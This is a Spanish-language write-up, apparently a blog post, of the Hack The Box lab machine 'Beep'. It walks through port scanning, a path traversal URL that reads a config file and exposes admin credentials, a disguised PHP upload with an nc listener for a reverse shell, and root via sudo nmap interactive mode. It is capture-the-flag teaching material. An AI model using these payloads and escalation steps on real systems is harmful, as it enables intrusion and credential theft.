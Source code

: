 ```yaml
---
title: Beep - HTB Writeup
date: 2023-09-07 14:13:00 +0800
categories: [Writeups, HTB]
tags: [Easy, Linux, Writeup]
image:
  path: /assets/img/post/beep/2d974a53-bec1-4055-8f91-b1a8ddc58da6_alta-libre-aspect-ratio_default_0.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


**Beep** es un máquina de dificultad ```Easy``` en la plataforma **Hack The Box**

La máquina **Beep** tiene un gran número de **servicios en ejecucción**, lo que puede ser bueno o malo, ya puede ser dificil encontrar la manera correcta de ganar acceso a la máquina, pero lo bueno es que hay muchas maneras de realizar la intrusión

En este caso lo haremos de la manera que me parece más sencilla y fácil de entender, pero hay muchas maneras distintas de hacerlo. Vamos allá!

## **Reconocimiento**

Como de costumbre para comenzar con la fase de reconocimiento, empezaremos realizando un escaneo de puertos con la herramienta ```nmap``` , esta nos reportará los puertos abiertos en la dirección que le indiquemos:

```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oG allPorts
```

![img](/assets/img/post/beep/c36e782c-17fb-4f76-83f4-ceacf9ab3b12.png)

Como comentabamos al principio, nos encontramos con un gran número de **servicios y puertos abiertos**

Vamos a hacer un escaneo más exhaustivo de los **servicios y versiones** que se ejecutan en cada puerto *(vamos a hacer un escaneo de pocos puertos para que no se demore mucho)*

```bash
nmap -sCV -p22,25,80 10.10.10.7 -oN versions
```

![img](/assets/img/post/beep/1b19c82f-9dfb-4e29-ab8d-1e3533d44858.png)

Podemos ver que hay en ejecución un servicio ```HTTP``` por el puerto ```80```, veamos que encontramos:

![img](/assets/img/post/beep/ea12d889-e6a7-4a6d-8c5c-9e05e99c32f1.png)

Vemos que hay un panel de **inicio de sesión**, podemos buscar credenciales por defecto de este servicio, pero por desgracia estas han sido cambiadas, así que vamos a buscar si podemos acceder de alguna manera

Usando searchsploit vamos a ver si hay alguna forma de explotar algún fallo de ```Elastix 2.2.0```:

```bash
searchsploit elastix
```

![img](/assets/img/post/beep/796b300a-81bd-4aa5-9e45-46939fff049e.png)

Vemos que hay una vulnerabilidad existente para la versión del servicio al que intentamos acceder

![img](/assets/img/post/beep/38acbf8a-ea6b-46ca-b2ec-a8cea437c502.png)

Si abrimos el archivo ```.txt```, podremos observar que el servicio es **vulnerable** a un ```Directory Path Traversal```, **con el que podremos apuntar a cualquier archivo del sistema** 

> En este [enlace](https://portswigger.net/web-security/file-path-traversal) dejo más información sobre esta vulnerabilidad

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![img](/assets/img/post/beep/36210f96-940c-43f0-913f-bd7772993135.png)

Vemos que si apuntamos a ```/etc/amportal.conf``` accederemos a un archivo de configuración del servicio ```amportal```

En el podremos encontrar unas credenciales ```admin:jEhdIekWmdjE``` , las cuales podremos utilizar para loguearnos en el servicio ```vtigercrm```

Una vez logueados veremos la siguiente interfaz, haremos click en ```Settings```

![img](/assets/img/post/beep/8ed6b75f-d51e-4fe7-a78e-a86e79502aa1.png)

## **Explotación**

Una vez en ```Settings```, accederemos a ```Company Details```, donde accederemos a un panel donde podremos **cambiar la foto de la empresa**, este será vulnerable al ```LFI``` que hablabamos anteriormente, por lo tanto vamos a crear un **archivo malicioso**

![img](/assets/img/post/beep/d838263a-7cfd-4562-b529-f7197dfaf6c8.png)

![img](/assets/img/post/beep/9514ec5d-2f53-467d-b142-e4010bd4503e.png)

> La opción de subida de archivos no está bien sanitizada, por lo que debemos colocarle al archivo php la extensión ```.jpg``` para que nos permita subirlo

A su vez nos pondremos en escucha por el puerto ```443``` mediante ```nc```:

```bash
nc -lvnp 443
```

![img](/assets/img/post/beep/24c56a99-1502-4006-be91-05f81d135fd6.png)

Y ya tendremos acceso a la **user flag**, si lo deseamos podemos hacer un ```tratamiento de la tty``` para un mejor control de la consola

## **Escalada de Privilegios**

Como siempre, lo primero que haremos será ```sudo -l``` , para ver si hay algún ```binario``` que podamos ejecutar como ```root```:

![img](/assets/img/post/beep/9505d4a3-3e5b-4c9c-853d-7b29e65572c6.png)

Como vemos,** hay muchas opciones con las cuales probar**, pero nosotros lo intentaremos con la opción de ```nmap```. Lo que haremos para conseguir una ```consola``` como ```root``` aprovechandonos de poder ejecutar el ```binario``` de nmap como un usuario privilegiado es lo siguiente:

```bash 
sudo nmap --interactive
```

```bash 
!bash
```

> Al realizar el segundo paso no sucederá nada, pero ya deberiamos tener acceso como root

![img](/assets/img/post/beep/2fa43191-ce70-4ebc-b99f-d85cbdc9be1d.png)

Como podemos ver ya tendremos acceso como **usuario privilegiado**

![img](/assets/img/post/beep/75b8622e-7194-4b12-80f3-05f3b620d7d8.png)

Y finalmente ya podremos ver la **root flag**

Espero que os haya gustado y servido de ayuda, cualquier comentario se agradece. Adios!